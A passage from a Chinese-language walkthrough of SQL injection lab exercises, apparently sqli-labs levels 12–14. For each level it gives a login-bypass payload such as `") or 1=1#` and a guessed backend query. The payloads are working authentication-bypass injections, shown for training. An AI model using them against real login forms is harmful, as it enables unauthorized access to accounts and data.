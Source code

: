 此题和11题基本相同。区别是：11题使用`'`单引号包裹数据，此题则是`"`双引号和`()`小括号包裹数据



payload：

```
Username:1") or 1=1#
Password:任意
```





猜测后端sql语句为：

```
select * from users where username=("前端数据") and password=("前端数据") limit 0,1;
```





#### 13.

此题和12题有基本相同。12题使用`"`双引号和`()`小括号包裹数据，此题则是通过`'`单引号和`()`小括号包裹数据



payload：

```
Username:') or 1=1#
Password:任意
```





猜测后端sql语句为：

```
select * from users where username=('前端数据') and password=('前端数据') limit 0,1;
```



#### 14.	

此题和11题基本类似。不同的在11题使用`'`单引号包裹数据，此题则是使用`"`包裹数据



payload:

```
Username:" or 1=1#
Password:任意
```





猜测后端sql语句：

```
select * from users where username="前端数据" and password="前端数据" limit 0,1;
```
